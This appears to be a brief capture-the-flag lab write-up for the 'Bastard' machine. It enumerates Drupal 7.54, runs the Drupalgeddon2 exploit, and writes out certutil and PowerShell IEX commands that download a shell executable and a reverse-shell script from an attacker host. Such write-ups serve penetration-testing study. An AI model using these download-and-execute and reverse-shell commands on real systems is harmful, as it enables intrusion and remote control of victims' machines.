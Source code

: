 # Bastard

## Recon

Starting with recon:

```sh
sudo autorecon 10.10.10.9
```

## Enumeration

- `Drupal 7.54` on port 80


## Exploit

Drupalgeddon2 the ruby script works from `searchsploit`

```sh
searchsploit -m 44449.rb
```

and when running this, we get a warning about a shebang error, so we use dos2unix to fix this.

```sh
dos2unix 44449.rb
```

and finally fire off the exploit:

```sh
ruby 44449.rb
```

```sh
certutil.exe -urlcache -split -f "http://192.168.72.128/shell.exe" "C:\inetpub\drupal-7.54\shell.exe"
```

URI encoded:

```sh
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.72.128/mini-reverse.ps1')
```

powershell iex(new-object net.webclient).downloadstring('http://192.168.72.128/mini-reverse.ps1')